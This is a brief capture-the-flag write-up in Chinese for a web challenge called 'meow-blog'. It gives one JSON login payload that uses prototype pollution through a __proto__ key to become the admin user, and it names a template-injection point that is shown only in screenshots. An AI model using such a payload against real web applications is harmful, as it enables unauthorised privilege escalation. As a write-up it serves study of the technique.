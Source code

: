 ## Web
### meow-blog

 原型链污染，获取admin权限
 
![](attachments/Pasted%20image%2020231017203527.png)

`{"username":"wum0nster","password":"123","submit":[{"__proto__":{"user":{"id":1,"username":"admin","style":"wum0nster"}}},"1"]}`

模板注入漏洞点

![](attachments/Pasted%20image%2020231018083914.png)

![](attachments/Pasted%20image%2020231018084420.png)

